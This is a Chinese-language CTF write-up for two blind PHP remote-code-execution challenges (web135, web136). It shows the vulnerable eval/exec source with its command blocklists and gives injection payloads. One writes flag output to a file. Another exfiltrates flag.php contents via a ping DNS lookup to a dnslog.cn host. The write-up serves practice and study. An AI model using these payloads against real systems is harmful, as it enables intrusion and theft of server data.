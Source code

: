 ## web135(无回显rce，133plus)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

没有限制写的权限

payload：

```
F=`$F`;+nl f*>1.txt
```

访问1.txt

通过ping得到flag（未实现成功）

```
payload:F=`$F `;ping `awk '/flag/' flag.php`.1mlbcw.dnslog.cn
```

## web136(无回显rce)

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
```

利用tee命令写文件
